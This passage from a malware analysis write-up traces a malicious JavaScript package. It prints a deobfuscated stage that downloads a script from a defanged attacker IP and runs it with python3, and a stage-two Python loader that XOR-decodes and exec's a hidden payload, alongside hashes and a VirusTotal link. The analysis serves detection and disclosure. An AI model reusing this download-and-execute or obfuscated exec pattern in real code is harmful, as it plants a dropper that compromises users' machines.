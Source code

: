 So basically it reaches out to this url and downloads the file. What it downloads is not that interesting for us. They have a local version of `Python3`, and it just basically pulls down `Python3` so it can execute commands and scripts with it.

#### Second execute
The second execute is where things get interesting. To figure out what it does, we do the same thing as in the first one.

```js
    } else(() => {
        const t = Z(),
            c = n(d),
            r = n(o),
            e = n(m),
            l = "/.npl",
            s = "python",
            G = `${t}${c}/${h}`, // /client/rsj6
            b = `${hd}${l}`;
        let i = `python3 "${b}"`;
        rq["get"](G, ((t, c, e) => {
            t || (a[r](b, e), ex(i, ((t, c, a) => {})))
        }))
    })()
```

Let's note a few things here.
- `rq` resolves to `request` meaning we are doing a `get` request on the string `G`
- It executes the downloaded script with python, that it got from the previous download

So, what does it do a request to?
- t = the IP 
- c = "client"
- h = "rsj6"

Put together: **hxxp[://]147[.]124[.]212[.]89:1244/client/rsj6**

## Stage 2
> md5: fb3f227993790f81d97f76059cd3d3ff 

> sha1: 1b54314a4f4d51920d161c8908578264ed551f76 

> sha256: 2c1619e6ce784f7a411d2c6ddf0687b6aa81f8fd5ebf107bdd6d7fbececaa19e

> [Virustotal](https://www.virustotal.com/gui/file/2c1619e6ce784f7a411d2c6ddf0687b6aa81f8fd5ebf107bdd6d7fbececaa19e): 2/60


This `rsj6` file is going to be our stage2.

At this point I booted up Remnux, so I can safely execute parts of this code, without the fear of my system being infected.

```py
sType = 'rsj6'

t="GlmY"+"ksYL"+"TQUAKQQBLWwlDR48XUd1PCsNGT8EATRgKB9BKh4RKT4oDwgqGF8qNTRmGSsSSTAhNwM [...] B8SOyAiQE04Gy5wRg=="
import base64
d=base64.b64decode(t[8:]);sk=t[:8];size=len(d);res=''
for i in range(size):k=i&7;c=chr(d[i]^ord(sk[k]));res+=c
exec(res)
```
> The [...] is added here, there are a ton more characters.
